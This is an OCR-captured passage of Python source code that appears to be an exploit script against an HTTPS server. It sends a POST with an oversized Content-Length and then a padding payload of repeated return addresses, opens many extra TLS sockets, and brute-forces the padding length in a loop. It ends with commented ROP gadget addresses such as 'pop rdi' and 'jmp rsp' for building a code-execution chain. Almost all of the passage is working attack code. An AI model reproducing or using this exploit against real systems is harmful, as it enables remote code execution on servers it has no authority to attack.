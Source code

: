 ```python
        socks[i] = None

    CL = "115964116992" # 0x1B00000000
    data  = b"POST " + path + b" HTTP/1.1\r\n"
    data += b"Host: "+hostname.encode()+ b"\r\n"
    data += b"Content-Length: " + CL.encode() + b"\r\n"
    data += b"User-Agent: Mozilla/5.0\r\n"
    data += b"Content-Type: text/plain;charset=UTF-8\r\n"
    data += b"Accept: */*\r\n"
    data += b"\r\n"
    data += b""

    exp_sk = create_ssl_ctx(hostname,port)
    for i in range(20):
        sk = create_ssl_ctx(hostname,port)
        socks.append(sk)

    # print(len(data))
    exp_sk.sendall(data)
    payload = p64(ret) * padding + b'A' * 0x1000
    exp_sk.sendall(payload)

    for sk in socks:
        if sk:
            data = b"b" * 40
            sk.sendall(data)

    return 1

for i in range(1000,2000):
    padding = int(i )
    print(i)
    if do_exploit(padding):
        continue
    else:
        print('timeout ...')
        break
    
# """
# 0x0000000001356e88 : mov rax, rdx ; pop rbp ; ret
# 0x0000000000550a38 : mov rax, rdx ; ret

# 0x000000000076e03e : pop rcx ; ret
# 0x0000000002c2c9b0 : and rax, rcx ; ret

# 0x000000000053d5a5 : pop rdi ; ret
# 0x0000000000687c69 : pop rsi ; ret
# 0x0000000001f407f4 : mov rdx, rax ; sub rdx, rdi ; sub qword ptr [rsi], rdx ; ret

# 0x0000000000687c69 : pop rsi ; ret
# 0x000000000045da22 : mov rdi, rdx ; test esi, esi ; jne 0x45da30 ; ret

# 0x0000000000687c69 : pop rsi ; ret

# 0x000000000043f942 : pop rdx ; ret

# 0x00000000005ecfe6 : jmp rsp

# """

# mov_rax_rdx_ret = 0x0000000000550a38
# pop_rcx_ret = 0x000000000076e03e
# and_rax_rcx_ret = 0x0000000002c2c9b0
```